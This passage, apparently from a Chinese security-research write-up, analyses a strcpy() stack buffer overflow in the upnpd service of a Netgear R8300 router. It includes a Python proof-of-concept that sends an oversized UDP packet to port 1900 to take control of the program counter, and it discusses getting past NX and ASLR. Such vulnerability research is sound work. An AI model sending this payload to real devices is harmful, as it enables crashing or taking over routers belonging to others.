 upnpd 服务成功运行！

[![](https://p1.ssl.qhimg.com/t01c34969b1b60234ee.jpg)](https://p1.ssl.qhimg.com/t01c34969b1b60234ee.jpg)



## 3.漏洞分析

该漏洞的原理很简单，使用 `strcpy()` 拷贝导致的缓冲区溢出，来看看调用流程。

在 `sub_1D020()` 中使用 `recvfrom()` 从套接字接受最大长度 `0x1fff` 的 UDP 报文数据。

[![](https://p5.ssl.qhimg.com/t01d6ecf075b544803c.jpg)](https://p5.ssl.qhimg.com/t01d6ecf075b544803c.jpg)

在 `sub_25E04()` 中调用 `strcpy()` 将以上数据拷贝到大小为 `0x634 - 0x58 = 0x5dc` 的 buffer。

[![](https://p0.ssl.qhimg.com/t019cec38a077f527c6.jpg)](https://p0.ssl.qhimg.com/t019cec38a077f527c6.jpg)



## 4.利用分析

通过 `checksec` 可知程序本身只开了 NX 保护，从原漏洞详情得知 R8300 上开了 ASLR。

[![](https://p3.ssl.qhimg.com/t019cec38a077f527c6.jpg)](https://p3.ssl.qhimg.com/t019cec38a077f527c6.jpg)

很容易构造出可控 PC 的 payload，唯一需要注意的是栈上有个 v39 的指针 v41，覆盖的时候将其指向有效地址即可正常返回。

```
#!/usr/bin/python3

import socket
import struct

p32 = lambda x: struct.pack("&lt;L", x)
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
payload = (
    0x604 * b'a' +  # dummy
    p32(0x7e2da53c) +  # v41
    (0x634 - 0x604 - 8) * b'a' +  # dummy
    p32(0x43434343)  # LR
)
s.connect(('192.168.2.2', 1900))
s.send(payload)
s.close()
```

[![](https://p5.ssl.qhimg.com/t0125c5ccc4835b7b60.jpg)](https://p5.ssl.qhimg.com/t0125c5ccc4835b7b60.jpg)

显然，`R4 - R11` 也是可控的，思考一下目前的情况：
1. 开了 NX 不能用 `shellcode`。
1. 有 ASLR，不能泄漏地址，不能使用各种 LIB 库中的符号和 `gadget`。
<li>
`strcpy()` 函数导致的溢出，payload 中不能包含 `\x00` 字符。</li>
其实可控 PC 后已经可以干很多事了，`upnpd` 内包含大量 `system` 函数调用，比如 `reboot`。
